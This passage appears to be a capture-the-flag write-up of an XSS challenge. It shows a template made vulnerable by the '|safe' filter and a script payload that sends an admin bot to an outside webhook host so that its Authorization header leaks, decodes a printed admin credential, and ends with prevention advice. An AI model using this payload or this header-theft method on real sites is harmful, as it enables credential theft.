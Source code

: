 ## Technical Deep Dive

### XSS Exploitation Details
```html
<!-- Vulnerable template -->
<h1>Welcome {{ name|safe }}!</h1>

<!-- Payload injection -->
<h1>Welcome <script>document.location='https://webhook.com/'</script>!</h1>
```

### Admin Bot Automation Flow
1. Selenium WebDriver receives malicious URL
2. Chrome browser loads with pre-configured Authorization header
3. XSS payload executes, redirecting to attacker-controlled server
4. Authorization header automatically included in redirect request

### Base64 Encoding/Decoding
```python
# Encoding process (server-side)
user_info = f'admin:{PASSWORD}'  # admin:1de98e13708c1f1f6023e131a7bd8676
encoded = base64.b64encode(user_info.encode()).decode()
# Result: YWRtaW46MWRlOThlMTM3MDhjMWYxZjYwMjNlMTMxYTdiZDg2NzY=

# Decoding process (attack verification)
decoded = base64.b64decode(encoded).decode()
# Result: admin:1de98e13708c1f1f6023e131a7bd8676
```

---

## Key Learning Points

### 1. XSS Prevention
- **Never use `|safe` filter** without proper validation
- **Implement Content Security Policy (CSP)**
- **Use HTML escaping by default**

### 2. Authorization Header Security
- **Avoid including sensitive headers** in automated browser sessions
- **Implement proper session management**
- **Use short-lived tokens instead of static credentials**

### 3. Admin Bot Security
- **Isolate admin bot environment**
- **Implement request filtering**
- **Monitor outbound connections**

---
